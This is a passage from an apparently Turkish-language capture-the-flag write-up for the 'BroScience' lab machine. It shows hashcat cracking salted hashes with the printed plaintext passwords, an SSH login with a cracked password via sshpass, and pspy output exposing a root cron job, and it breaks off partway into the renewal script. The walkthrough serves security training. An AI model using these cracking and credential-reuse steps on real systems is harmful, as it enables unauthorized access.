Hashcat kullanarak hashleri kırmayı deniyorum.

```bash
root@acivik:~/ctfs/BroScience-10.129.93.109# hashcat -m 20 -a 0 creds.txt /usr/share/wordlists/rockyou.txt --show
13edad4932da9dbb57d9cd15b66ed104:NaCl:iluvhorsesandgym
bd3dad50e2d578ecba87d5fa15ca5f85:NaCl:2applesplus2apples
5d15340bded5b9395d5d14b9c21bc82b:NaCl:Aaronthehottest
```

Bill kullanıcısına ssh ile bağlanabilirim.

```bash
root@acivik:~/ctfs/BroScience-10.129.93.109# sshpass -p 'iluvhorsesandgym' ssh bill@broscience.htb
Linux broscience 5.10.0-20-amd64 #1 SMP Debian 5.10.158-2 (2022-12-13) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jan  2 04:45:21 2023 from 10.10.14.40
bill@broscience:~$
```

# <span style="color:#AA0E1C"><b># PrivEsc: bill → root</b></span>

`pspy` ile processler incelenir.

```bash
2023/01/09 05:12:06 CMD: UID=0     PID=298412 | /usr/sbin/CRON -f 
2023/01/09 05:12:06 CMD: UID=0     PID=298413 | /bin/sh -c /root/cron.sh 
2023/01/09 05:12:06 CMD: UID=0     PID=298414 | /bin/bash /root/cron.sh 
2023/01/09 05:12:06 CMD: UID=0     PID=298415 | /bin/bash -c /opt/renew_cert.sh /home/bill/Certs/broscience.crt 
2023/01/09 05:12:06 CMD: UID=0     PID=298416 | 
2023/01/09 05:12:06 CMD: UID=0     PID=298417 | /bin/bash /root/cron.sh
```

Buradan anlaşılıyor ki root kullanıcısı `/opt/renew_cert.sh /home/bill/Certs/broscience.crt` komutunu düzenli olarak çalıştırır.

Script ilk olarak parametreyi kontrol eder.

```bash
#!/bin/bash

if [ "$#" -ne 1 ] || [ $1 == "-h" ] || [ $1 == "--help" ] || [ $1 == "help" ]; then
    echo "Usage: $0 certificate.crt";
    exit 0;
fi

if [ -f $1 ]; then

    openssl x509 -in $1 -noout -checkend 86400 > /dev/null

    if [ $? -eq 0 ]; then
        echo "No need to renew yet.";
        exit 1;
    fi
```

